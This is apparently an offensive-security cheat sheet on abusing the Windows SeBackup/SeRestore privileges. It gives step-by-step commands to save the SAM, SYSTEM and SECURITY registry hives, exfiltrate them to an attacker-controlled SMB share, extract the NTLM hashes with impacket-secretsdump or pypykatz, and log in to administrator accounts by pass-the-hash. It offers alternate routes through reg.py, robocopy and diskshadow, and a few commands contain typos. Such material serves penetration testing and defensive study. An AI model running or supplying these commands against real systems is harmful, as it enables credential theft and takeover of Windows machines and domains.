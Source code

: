 # Dump SAM and SYSTEM hives

## Privileges: SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

 - cd /

 - mkdir temp

 - cd temp

 - req save hklm\system c:\temp\system

 - req save hklm\sam c:\temp\sam

 - download sam

 - download system

#### 2: Create SMB Server on attacking machine

 - 1: mkdir share

 - 2: impacket-smbserver -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

- copy c:\users\user\sam.hive \\ATTACK_IP\public\

- copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

 - impacket-secretsdump -sam sam.hive -system system.hive LOCAL

## OR 

 - pypykatz registry --sam sam system

#### 5: Pass-The-Hash Attack (PtH)

- impacket-psexec -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

- evil-winrm -i TARGET_IP -u administrator -H 'NTLM_HASH'

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

 - python smbserver.py -smb2support share /tmp

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

 - Import-Module .\SeBackupPrivilegeUtils.dll

 - Import-Module .\SeBackupPrivilegeCmdLets.dll

 - Set-SeBackupPrivilege

 - Get-SeBackupPrivilege

## Alternate Method: Robocopy

 - robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B

 - type C:\Users\Public\root.txt

## Alternate Method: diskshadow.exe

### Create a script for diskshadow to execute

 - cd /

 - mkdir temp

 - cd temp

 - echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii

 - echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append

 - echo "create" | out-file ./diskshadow.txt -encoding ascii -append

 - echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append

 - dir

 - diskshadow.exe /s c:\temp\diskshadow.txt

  ### Copy the SAM/SYSTEM/SECURITY hives to our temp folder

 - robocopy /b Z:\Windows\System32\Config C:\temp SAM

 - robocopy /b Z:\Windows\System32\Config C:\temp SYSTEM

 - robocopy /b Z:\Windows\System32\Config C:\temp SECURITY

### Then download all of them to our machine

## Dump hashes

### 1) Pypykatz

 - pypykatz registry --sam sam system

### 2) impacket-secretsdump

 - impacket-secretsdump -sam sam -system system LOCAL
